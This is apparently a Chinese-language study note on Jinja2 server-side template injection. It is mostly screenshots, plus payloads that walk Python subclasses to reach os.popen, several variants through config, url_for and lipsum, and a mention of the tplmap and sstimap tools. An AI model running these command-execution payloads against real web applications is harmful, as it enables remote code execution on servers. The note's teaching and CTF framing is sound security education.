# WEB攻防-Python安全&SSTI模版注入&Jinja2引擎&利用绕过项目&黑盒检测

## Python-SSTI形成



name的数值是多少就会输出多少



输入JS 就会弹窗

用jinja2 的解析语法

具体的解析语法



**Python-SSTI利用**

1、看那些类可用

{{''.__class__.__base__.__subclasses__()}}



OS是自带的类，popen是引用的方法

****



2、找利用类索引

<class 'os._wrap_close'>

正134行 索引是从0开始的 所以是133



3、找利用类方法

{{''.__class__.__base__.__subclasses__()[133].__init__.__globals__}}



搜索popen



4、构造利用类方法

{{''.__class__.__base__.__subclasses__()[133].__init__.__globals__.popen('calc')}}   弹出计算器



刚才是用数字组现在用列表



其他写法

config：{{config.__class__.__init__.__globals__['os'].popen('calc')}}

url_for：{{url_for.__globals__.os.popen('calc')}}

lipsum：{{lipsum.__globals__['os'].popen('calc')}}

get_flashed_messages：{{get_flashed_messages.__globals__['os'].popen('calc')}}

## 利用.read 读出CTF



参数逃逸



切换传输方式



## 利用tplmap （不推荐）



输入*让它去注入







## 利用sstimap

启动





检测post提交

